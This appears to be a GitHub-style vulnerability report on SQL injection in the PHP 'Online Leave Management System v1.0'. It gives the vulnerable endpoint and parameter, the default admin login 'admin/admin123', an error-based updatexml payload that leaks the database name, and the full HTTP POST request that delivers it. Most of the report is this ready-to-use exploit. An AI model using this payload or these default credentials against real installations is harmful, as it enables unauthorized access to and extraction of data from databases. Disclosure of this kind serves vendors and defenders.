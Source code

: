 # Online Leave Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Tmoont

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14910/online-leave-management-system-php-free-source-code.html

Vulnerability File: /leave_system/classes/Master.php?f=delete_application

Vulnerability location: /leave_system/classes/Master.php?f=delete_application,id

dbname=leave_db,length=8

[+] Payload:  id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

```sql
POST /leave_system/classes/Master.php?f=delete_application HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/leave_system/admin/?page=maintenance/department
Content-Length: 65
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/183636500-55b3b083-4de4-4f72-93f5-f14952d5f486.png)
